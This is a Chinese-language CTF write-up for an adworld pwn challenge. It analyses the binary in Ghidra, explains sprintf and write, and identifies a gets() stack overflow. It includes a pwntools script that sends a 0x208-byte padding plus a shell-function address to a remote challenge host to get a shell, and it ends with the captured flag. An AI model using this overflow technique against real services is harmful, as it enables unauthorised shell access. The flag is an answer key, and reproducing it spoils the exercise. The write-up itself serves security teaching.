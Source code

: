 # 反应釜开关控制

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=d6400d88-b84b-4939-a118-9772fad79aab_2&task_category_id=2)

这题3分。而且做出来的人不足1000，不应该很难吗？结果就这？

程序扔ghidra，main函数很普通。

![main](../../images/_theMain.png)

- ### sprintf
  > 发送格式化输出到 str 所指向的字符串。
  - 声明：int sprintf(char *str, const char *format, ...)
  - 参数
    > str -- 这是指向一个字符数组的指针，该数组存储了 C 字符串.
    > format -- 这是字符串，包含了要被写入到字符串 str 的文本。它可以包含嵌入的 format 标签，format 标签可被随后的附加参数中指定的值替换，并按需求进行格式化。format 标签属性是 %\[flags][width][.precision][length]specifier

比如上图的用法是把easy函数的地址存储到local_248里。

- ### write
  > 把buf中nbyte写入文件描述符handle所指的文档，成功时返回写的字节数，错误时返回-1.
  - 声明：int write(int handle,void *buf,int len);
  - 参数
    > int handle  为要获取文件指针的文件句柄
    > void *buf   为要写入的内容
    > int len     为要写入文件的长度

第一个参数为1表示向命令行输出（stdout？）。因此第11行的作用是将输出local_248 9个字符长度的内容到命令行。9个字符大概是因为后面还有个\0。、

那很明显栈溢出了，gets出现看都不用看。这道题不知道怎么设计的，出题人想让你跳到easy里，easy里还有个normal，normal里就是shell了。但是吧，shell地址在程序里可以找到，那我为啥不直接跳到shell呢？

```python
from pwn import *
shell=0x004005f6
proc=remote("61.147.171.105",55231)
payload=b'a'*0x208+p64(shell)
proc.sendlineafter(">",payload)
proc.interactive()
```

这题唯一有问题的是我不知道怎么找偏移。注意左侧stack-0x208已经把local_208 512的长度算进去了，所以不用再加512。另外是0x啊，不要打成208了，我最开始怎么试都不对怀疑人生了。有的时候还要仔后面加b'a'*8填rbp，但这里不知道为什么不用。反正都试试，不差这几秒。

- ### Flag
  > cyberpeace{74866e5f9a9f3e58a4c260d1e59cc010}